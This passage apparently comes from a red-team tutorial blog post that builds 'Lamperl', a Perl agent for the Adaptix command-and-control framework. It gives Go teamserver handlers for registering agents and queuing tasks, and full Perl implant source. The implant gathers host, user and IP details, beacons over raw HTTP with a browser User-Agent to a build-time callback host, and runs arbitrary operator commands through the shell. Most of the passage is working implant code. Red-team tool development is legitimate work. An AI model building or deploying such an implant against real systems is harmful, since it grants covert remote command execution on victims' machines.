- Replaces placeholders: `<CALLBACK_HOST>`, `<CALLBACK_PORT>`, `<CALLBACK_PATH>`, `<WATERMARK>`
- Returns the modified script as bytes along with the filename

With the generation functions in place, we can implement `CreateAgent`, which parses initial beacon data and registers a new agent in the C2:

```go
// CreateAgent parses initial beacon data and populates agent metadata.
// Called when an agent checks in for the first time to register it in the C2.
// Parameters:
//   - initialData: JSON-encoded system information from the agent's first beacon
//
// Returns: Populated AgentData struct with system info, sleep/jitter settings, etc.
func CreateAgent(initialData []byte) (adaptix.AgentData, error) {
	var agentData adaptix.AgentData

	/// START CODE HERE

	var initData map[string]interface{}
	err := json.Unmarshal(initialData, &initData)
	if err != nil {
		return agentData, err
	}

	// Extract agent information
	agentData.Computer = getString(initData, "hostname")
	agentData.Username = getString(initData, "username")
	agentData.Domain = getString(initData, "domain")
	agentData.InternalIP = getString(initData, "internal_ip")
	agentData.Process = getString(initData, "process")
	agentData.Pid = fmt.Sprintf("%d", getInt(initData, "pid"))
	agentData.Sleep = uint(getInt(initData, "sleep"))
	agentData.Jitter = uint(getInt(initData, "jitter"))
	agentData.Os = OS_LINUX

	// No encryption for now
	agentData.SessionKey = []byte("NULL")

	/// END CODE

	return agentData, nil
}
```

This function follows a simple flow: unmarshal the JSON into a map, extract system information (hostname, username, domain, internal IP, process name, PID), extract operational parameters (sleep and jitter), set the OS type to Linux, and initialize the session key to "NULL" (we'll implement encryption in a future iteration).

### Task Handling

Now we need to handle the bidirectional task flow. The `PackTasks` function converts internal Adaptix task structures into the JSON format our Perl agent expects:

```go
/// TASKS
// PackTasks converts Adaptix TaskData array into agent-consumable JSON format.
// Called when the agent checks in to send pending tasks for execution.
// Parameters:
//   - agentData: Agent metadata (unused but required by interface)
//   - tasksArray: Array of tasks to send to the agent
//
// Returns: JSON-encoded response with tasks array, each containing task_id and command data
func PackTasks(agentData adaptix.AgentData, tasksArray []adaptix.TaskData) ([]byte, error) {
	var packData []byte

	/// START CODE HERE

	var tasks []map[string]interface{}

	for _, task := range tasksArray {
		var taskMap map[string]interface{}
		err := json.Unmarshal(task.Data, &taskMap)
		if err != nil {
			continue
		}

		taskMap["task_id"] = task.TaskId
		tasks = append(tasks, taskMap)
	}

	response := map[string]interface{}{
		"tasks": tasks,
	}

	packData, err := json.Marshal(response)
	if err != nil {
		return nil, err
	}

	/// END CODE

	return packData, nil
}
```

The function iterates through each task, unmarshals its data into a map, adds the task ID, and wraps everything in a response object before marshaling to JSON.

The `CreateTask` function handles the operator-to-agent direction, converting console commands into task structures. For this initial version, we're implementing three commands: `pwd`, `cd`, and `run`:

```go
// CreateTask converts user input from the UI into a task for the agent.
// Called when an operator executes a command in the Adaptix console.
// Parameters:
//   - ts: Teamserver interface for C2 operations
//   - agent: Agent metadata
//   - args: Map containing command name and parameters from UI
//
// Returns:
//   - TaskData: Serialized task to send to agent
//   - ConsoleMessageData: Message to display in operator's console
//   - Error if command is invalid or parameters are missing
func CreateTask(ts Teamserver, agent adaptix.AgentData, args map[string]any) (adaptix.TaskData, adaptix.ConsoleMessageData, error) {
	var (
		taskData    adaptix.TaskData
		messageData adaptix.ConsoleMessageData
		err         error
	)

	//command, ok := args["command"].(string)
	//if !ok {
	//	return taskData, messageData, errors.New("'command' must be set")
	//}
	//subcommand, _ := args["subcommand"].(string)

	taskData = adaptix.TaskData{
		Type: TYPE_TASK,
		Sync: true,
	}

	messageData = adaptix.ConsoleMessageData{
		Status: MESSAGE_INFO,
		Text:   "",
	}
	messageData.Message, _ = args["message"].(string)

	/// START CODE HERE

	command, ok := args["command"].(string)
	if !ok {
		return taskData, messageData, errors.New("'command' must be set")
	}

	commandData := make(map[string]interface{})
	commandData["command"] = command

	switch command {
	case "pwd":
		// No additional parameters needed
	case "cd":
		path, ok := args["path"].(string)
		if !ok {
			err = errors.New("parameter 'path' must be set")
			return taskData, messageData, err
		}
		commandData["path"] = path
	case "run":
		executable, ok := args["executable"].(string)
		if !ok {
			err = errors.New("parameter 'executable' must be set")
			return taskData, messageData, err
		}
		commandData["executable"] = executable
		if cmdArgs, ok := args["args"].(string); ok {
			commandData["args"] = cmdArgs
		}
	default:
		err = fmt.Errorf("unknown command: %s", command)
		return taskData, messageData, err
	}

	taskData.Data, err = json.Marshal(commandData)
	if err != nil {
		return taskData, messageData, err
	}

	/// END CODE

	return taskData, messageData, err
}
```

This function extracts the command name from the args map, builds a `commandData` map with command-specific parameters (`pwd` needs nothing, `cd` requires a path, `run` requires an executable with optional arguments), marshals the command data to JSON, and stores it in `taskData.Data`.

These three commands provide a solid foundation for testing. Basic filesystem navigation (`pwd`, `cd`) and arbitrary command execution (`run`) will cover the essential operations needed to validate our entire task flow.

Finally, `ProcessTasksResult` handles the agent-to-operator direction, parsing task results and formatting them for console display:

```go
// ProcessTasksResult parses agent task responses and displays formatted output.
// Called when agent sends back task execution results.
// Parameters:
//   - ts: Teamserver interface for console output
//   - agentData: Agent metadata
//   - taskData: Original task data (unused but required by interface)
//   - packedData: JSON-encoded array of task results from agent
//
// Returns: Array of additional tasks to queue (currently always empty)
func ProcessTasksResult(ts Teamserver, agentData adaptix.AgentData, taskData adaptix.TaskData, packedData []byte) []adaptix.TaskData {
	var outTasks []adaptix.TaskData

	/// START CODE

	// Parse results array
	var results []map[string]interface{}
	err := json.Unmarshal(packedData, &results)
	if err != nil {
		return outTasks
	}

	// Process each result
	for _, result := range results {
		_ = getString(result, "task_id")
		output := getString(result, "output")

		// Parse the output JSON to format it nicely
		var outputData map[string]interface{}
		err := json.Unmarshal([]byte(output), &outputData)
		if err != nil {
			// If parsing fails, just show raw output
			continue
		}

		command := getString(outputData, "command")

		// Format output for console display
		var consoleOutput string
		switch command {
		case "pwd":
			path := getString(outputData, "path")
			consoleOutput = fmt.Sprintf("Current directory: %s", path)
		case "cd":
			if errMsg := getString(outputData, "error"); errMsg != "" {
				consoleOutput = fmt.Sprintf("Error: %s", errMsg)
			} else {
				path := getString(outputData, "path")
				consoleOutput = fmt.Sprintf("Changed directory to: %s", path)
			}
		case "run":
			executable := getString(outputData, "executable")
			args := getString(outputData, "args")
			stdout := getString(outputData, "stdout")
			exitCode := getInt(outputData, "exit_code")

			cmdStr := executable
			if args != "" {
				cmdStr = fmt.Sprintf("%s %s", executable, args)
			}

			consoleOutput = fmt.Sprintf("Running command: %s\n\n%s\nExit code: %d", cmdStr, stdout, exitCode)
		default:
			if errMsg := getString(outputData, "error"); errMsg != "" {
				consoleOutput = fmt.Sprintf("Error: %s", errMsg)
			} else {
				// Show raw JSON output for unknown commands
				jsonBytes, _ := json.MarshalIndent(outputData, "", "  ")
				consoleOutput = string(jsonBytes)
			}
		}

		// Output to agent console
		ts.TsAgentConsoleOutput(agentData.Id, MESSAGE_SUCCESS, consoleOutput, "", true)
	}

	/// END CODE

	return outTasks
}
```

This function unmarshals the packed data into a results array, then for each result extracts the task ID and output, parses the output JSON, and formats it based on command type before displaying it in the UI via `TsAgentConsoleOutput`.

### Agent ax_config.axs

Lastly, we need to build the `ax_config.axs` file for the agent, which registers the commands we defined in `CreateTask`:

```go
function RegisterCommands(listenerType)
{
/// Commands Here
    let cmd_pwd = ax.create_command("pwd", "Print working directory", "pwd", "Task: print working directory");
    
    let cmd_cd = ax.create_command("cd", "Change directory", "cd /etc", "Task: change directory");
    cmd_cd.addArgString("path", true, "Target directory path");
    
    let cmd_run = ax.create_command("run", "Execute command", "run whoami", "Task: execute command");
    cmd_run.addArgString("executable", true, "Command or executable to run");
    cmd_run.addArgString("args", false, "Command arguments");

    if(listenerType == "LamperlHTTP") {
        let commands_external = ax.create_commands_group("Lamperl", [cmd_pwd, cmd_cd, cmd_run]);

        return { commands_linux: commands_external }
    }
    return ax.create_commands_group("none",[]);
}

function GenerateUI(listenerType)
{
    let container = form.create_container()

    let panel = form.create_panel()

    return {
        ui_panel: panel,
        ui_container: container
    }
}
```

The agent handler is complete for now, we can make it by running `make` in the `lamperl_agent` directory.

With all the Go infrastructure in place, it's finally time to create the actual Perl agent that will run on target systems.

## The Lamperl Agent

Before we can add any commands, we need to establish a reliable callback mechanism. Let's start by defining some essential variables:

```perl
# Configuration
my $callback_host = '<CALLBACK_HOST>';
my $callback_port = '<CALLBACK_PORT>';
my $callback_path = '<CALLBACK_PATH>';
my $agent_watermark = '<WATERMARK>';

# Generate random 10-character hex agent ID at runtime
srand(time ^ $$ ^ unpack("%L*", `ps axww | gzip -f`));
my $agent_id = sprintf("%010x", int(rand() * 1099511627776) % 1099511627776);

# Agent state
my $sleep_time = 5;
my $jitter_percent = 10;
my $current_directory = Cwd::getcwd();
my $should_terminate = 0;

# Reusable JSON encoder
my $json = JSON::PP->new->utf8->canonical;
```

The placeholder values (`<CALLBACK_HOST>`, etc.) will be replaced at build time by the `AgentGenerateBuild` function we implemented earlier. We're generating a random 10-character agent ID at runtime to ensure uniqueness, tracking the current working directory for filesystem operations, and creating a reusable JSON encoder to simplify our communication logic.

Next, we create a function to gather initial system information for the first check-in:

```perl
# Get initial system information
sub get_init_data {
    my $hostname = `hostname`; chomp($hostname);
    my $username = getpwuid($<) || $<;
    
    my $internal_ip = '';
    my $sock = IO::Socket::INET->new(
        PeerAddr => '8.8.8.8',
        PeerPort => 53,
        Proto    => 'udp',
    );
    if ($sock) {
        $internal_ip = $sock->sockhost();
        close($sock);
    }
    
    return {
        hostname     => $hostname,
        username     => $username,
        domain       => '',
        internal_ip  => $internal_ip,
        process      => $0,
        pid          => $$,
        sleep        => $sleep_time,
        jitter       => $jitter_percent,
    };
}
```

The most critical component is the HTTP communication function, which handles all interactions with the listener:

```perl
# Send HTTP request
sub send_request {
    my ($beat, $init, $results) = @_;
    
    print STDERR "[DEBUG] Connecting to $callback_host:$callback_port\n";
    
    my $sock = IO::Socket::INET->new(
        PeerHost => $callback_host,
        PeerPort => $callback_port,
        Proto    => 'tcp',
        Timeout  => 10,
    );
    
    unless ($sock) {
        print STDERR "[ERROR] Failed to connect: $!\n";
        return undef;
    }
    
    print STDERR "[DEBUG] Connected successfully\n";
    
    # Build request body
    my $body = { beat => $beat };
    $body->{init} = $init if $init;
    $body->{results} = $results if $results && @$results;
    
    my $body_json = $json->encode($body);
    my $content_length = length($body_json);
    
    print STDERR "[DEBUG] Beat: $beat\n";
    print STDERR "[DEBUG] Body length: $content_length bytes\n";
    print STDERR "[DEBUG] Body: $body_json\n";
    print STDERR "[DEBUG] Sending request...\n";
    
    # Send HTTP request
    print $sock join("\r\n",
        "POST $callback_path HTTP/1.1",
        "Host: $callback_host:$callback_port",
        "User-Agent: Mozilla/5.0 (X11; Linux x86_64)",
        "Content-Type: application/json",
        "Content-Length: $content_length",
        "Connection: close",
        "",
        $body_json
    );
    
    # Read response
    local $/ = undef;
    my $response = <$sock>;
    close($sock);
    
    print STDERR "[DEBUG] Response length: " . length($response) . " bytes\n";
    print STDERR "[DEBUG] Response:\n$response\n";
    
    # Parse response body
    return undef unless $response;
    return undef unless $response =~ /\r?\n\r?\n(.+)$/s;
    
    my $data = eval { $json->decode($1) };
    if ($@) {
        print STDERR "[ERROR] JSON decode failed: $@\n";
    }
    return $data;
}
```
This function orchestrates the entire HTTP request/response cycle:
1. Establish a TCP connection to the listener with a 10-second timeout
2. Build the JSON request body, conditionally including init data (first check-in only) or results (task outputs)
3. Manually construct and send an HTTP POST request with proper headers. We're building raw HTTP here rather than using a library to keep dependencies minimal
4. Read the complete response by temporarily disabling Perl's input record separator (local $/ = undef), which allows us to slurp the entire response in one read operation
5. Extract the response body using a regex that matches everything after the HTTP headers (the \r?\n\r?\n sequence marks the end of headers)
6. Decode the JSON response and return the parsed data structure, or undef if any step fails

The liberal use of debug prints makes troubleshooting communication issues significantly easier during development and testing.

We'll also add a helper function to calculate sleep intervals with jitter:

```perl
# Calculate sleep time with jitter
sub calculate_sleep {
    return $sleep_time unless $jitter_percent > 0;
    return $sleep_time + int(rand($sleep_time * $jitter_percent / 100));
}
```

Finally, let's implement the main execution loop:

```perl
# Main loop
sub main {
    my $beat = $agent_watermark . $agent_id;
    my $init_data = get_init_data();
    my $first_checkin = 1;
    
    print STDERR "[INFO] Agent starting...\n";
    print STDERR "[INFO] Watermark: $agent_watermark\n";
    print STDERR "[INFO] Agent ID: $agent_id\n";
    print STDERR "[INFO] Beat: $beat\n";
    print STDERR "[INFO] Callback: $callback_host:$callback_port$callback_path\n";
    
    while (!$should_terminate) {
        print STDERR "[INFO] Sending beacon (first_checkin=$first_checkin)...\n";
        
        # Send beacon with init data on first checkin only
        my $response = send_request($beat, $first_checkin ? $init_data : undef, undef);
        $first_checkin = 0;
        
        sleep(calculate_sleep());
    }
}
```

Here's the complete initial agent implementation:

```perl
#!/usr/bin/perl
use strict;
use warnings;
use IO::Socket::INET;
use JSON::PP;
use MIME::Base64;
use Cwd;

# Configuration
my $callback_host = '<CALLBACK_HOST>';
my $callback_port = '<CALLBACK_PORT>';
my $callback_path = '<CALLBACK_PATH>';
my $agent_watermark = '<WATERMARK>';

# Generate random 10-character hex agent ID at runtime
srand(time ^ $$ ^ unpack("%L*", `ps axww | gzip -f`));
my $agent_id = sprintf("%010x", int(rand() * 1099511627776) % 1099511627776);

# Agent state
my $sleep_time = 5;
my $jitter_percent = 10;
my $current_directory = Cwd::getcwd();
my $should_terminate = 0;

# Reusable JSON encoder
my $json = JSON::PP->new->utf8->canonical;

# Get initial system information
sub get_init_data {
    my $hostname = `hostname`; chomp($hostname);
    my $username = getpwuid($<) || $<;

    my $internal_ip = '';
    my $sock = IO::Socket::INET->new(
        PeerAddr => '8.8.8.8',
        PeerPort => 53,
        Proto    => 'udp',
    );
    if ($sock) {
        $internal_ip = $sock->sockhost();
        close($sock);
    }

    return {
        hostname     => $hostname,
        username     => $username,
        domain       => '',
        internal_ip  => $internal_ip,
        process      => $0,
        pid          => $$,
        sleep        => $sleep_time,
        jitter       => $jitter_percent,
    };
}

# Send HTTP request
sub send_request {
    my ($beat, $init, $results) = @_;

    print STDERR "[DEBUG] Connecting to $callback_host:$callback_port\n";

    my $sock = IO::Socket::INET->new(
        PeerHost => $callback_host,
        PeerPort => $callback_port,
        Proto    => 'tcp',
        Timeout  => 10,
    );

    unless ($sock) {
        print STDERR "[ERROR] Failed to connect: $!\n";
        return undef;
    }

    print STDERR "[DEBUG] Connected successfully\n";

    # Build request body
    my $body = { beat => $beat };
    $body->{init} = $init if $init;
    $body->{results} = $results if $results && @$results;

    my $body_json = $json->encode($body);
    my $content_length = length($body_json);

    print STDERR "[DEBUG] Beat: $beat\n";
    print STDERR "[DEBUG] Body length: $content_length bytes\n";
    print STDERR "[DEBUG] Body: $body_json\n";
    print STDERR "[DEBUG] Sending request...\n";

    # Send HTTP request
    print $sock join("\r\n",
        "POST $callback_path HTTP/1.1",
        "Host: $callback_host:$callback_port",
        "User-Agent: Mozilla/5.0 (X11; Linux x86_64)",
        "Content-Type: application/json",
        "Content-Length: $content_length",
        "Connection: close",
        "",
        $body_json
    );

    # Read response
    local $/ = undef;
    my $response = <$sock>;
    close($sock);

    print STDERR "[DEBUG] Response length: " . length($response) . " bytes\n";
    print STDERR "[DEBUG] Response:\n$response\n";

    # Parse response body
    return undef unless $response;
    return undef unless $response =~ /\r?\n\r?\n(.+)$/s;

    my $data = eval { $json->decode($1) };
    if ($@) {
        print STDERR "[ERROR] JSON decode failed: $@\n";
    }
    return $data;
}

# Calculate sleep time with jitter
sub calculate_sleep {
    return $sleep_time unless $jitter_percent > 0;
    return $sleep_time + int(rand($sleep_time * $jitter_percent / 100));
}

# Main loop
sub main {
    my $beat = $agent_watermark . $agent_id;
    my $init_data = get_init_data();
    my $first_checkin = 1;

    print STDERR "[INFO] Agent starting...\n";
    print STDERR "[INFO] Watermark: $agent_watermark\n";
    print STDERR "[INFO] Agent ID: $agent_id\n";
    print STDERR "[INFO] Beat: $beat\n";
    print STDERR "[INFO] Callback: $callback_host:$callback_port$callback_path\n";

    while (!$should_terminate) {
        print STDERR "[INFO] Sending beacon (first_checkin=$first_checkin)...\n";

        # Send beacon with init data on first checkin only
        my $response = send_request($beat, $first_checkin ? $init_data : undef, undef);
        $first_checkin = 0;

        sleep(calculate_sleep());
    }
}

main();
```

We can verify the Perl syntax before running with:
```sh
perl -c lamperl.pl
```



Now create a listener in Adaptix, generate the agent, and launch it:
```sh
perl lamperl.pl
```



Success! The agent appears in Adaptix:



However, we haven't implemented any actual functionality yet. The agent can only beacon. Let's fix that.

## Adding Command Functionality

We're going to implement three commands in this initial version: `cd`, `pwd`, and `run`. We'll use a dispatch table pattern for clean command routing. First, we define the command table and implement the dispatch mechanism:

```perl
# Command dispatch table
my %COMMANDS = (
    pwd => \&cmd_pwd,
    cd  => \&cmd_cd,
    run => \&cmd_run,
);

# Execute a command using dispatch table
sub execute_command {
    my ($task) = @_;
    my $task_id = $task->{task_id};
    my $command = $task->{command};
    
    my $handler = $COMMANDS{$command};
    my $result = $handler 
        ? $handler->($task)
        : { command => $command, error => "Unknown command: $command" };
    
    return {
        task_id => $task_id,
        output  => $json->encode($result),
    };
}
```

Now let's implement the three commands. All three follow a similar pattern: execute the operation, capture the output, and return a structured result.

The `cmd_pwd` implementation simply returns the current directory:

```perl
sub cmd_pwd {
    my ($task) = @_;
    return {
        command => 'pwd',
        path    => $current_directory,
    };
}
```

The `cmd_cd` function validates the target path exists before changing directories:

```perl
sub cmd_cd {
    my ($task) = @_;
    my $path = $task->{path} || '/';
    
    unless (-d $path) {
        return {
            command => 'cd',
            error   => "Directory not found: $path",
        };
    }
    
    $current_directory = Cwd::abs_path($path);
    return {
        command => 'cd',
        path    => $current_directory,
    };
}
```

Finally, `cmd_run` executes arbitrary commands via `/bin/sh` and captures both stdout and the exit code:

```perl
sub cmd_run {
    my ($task) = @_;
    my $executable = $task->{executable} || '/bin/sh';
    my $args = $task->{args} || '';
    
    my $cmd = $args ? "$executable $args" : $executable;
    my $output = `$cmd 2>&1`;
    my $exit_code = $? >> 8;
    
    return {
        command   => 'run',
        executable => $executable,
        args      => $args,
        stdout    => $output,
        exit_code => $exit_code,
    };
}
```

The final step is updating the main loop to check for and execute commands:

```perl
sub main {
    my $beat = $agent_watermark . $agent_id;
    my $init_data = get_init_data();
    my $first_checkin = 1;
    
    print STDERR "[INFO] Agent starting...\n";
    print STDERR "[INFO] Watermark: $agent_watermark\n";
    print STDERR "[INFO] Agent ID: $agent_id\n";
    print STDERR "[INFO] Beat: $beat\n";
    print STDERR "[INFO] Callback: $callback_host:$callback_port$callback_path\n";
    
    while (!$should_terminate) {
        print STDERR "[INFO] Sending beacon (first_checkin=$first_checkin)...\n";
        
        # Send beacon with init data on first checkin only
        my $response = send_request($beat, $first_checkin ? $init_data : undef, undef);
        $first_checkin = 0;
        
        # Execute tasks if present
        if ($response && $response->{tasks} && @{$response->{tasks}}) {
            my @results = map { execute_command($_) } @{$response->{tasks}};
            send_request($beat, undef, \@results) if @results;
        }
        
        sleep(calculate_sleep());
    }
}
```

Now rebuild the listener and agent, generate a fresh agent, and run it:



Connection established successfully:



The agent can now change directories:



And execute arbitrary commands:



## Conclusion

That wraps up the first post in this series! We've successfully built a functional Adaptix agent from (mostly) scratch, covering listener implementation, agent generation, and basic command execution. The complete code for this iteration is available on GitHub.

[Lamperl-v1](https://github.com/P0142/Lamperlv1)

In the next post, we'll expand the agent's capabilities by adding support for file uploads, downloads, and asynchronous job handling.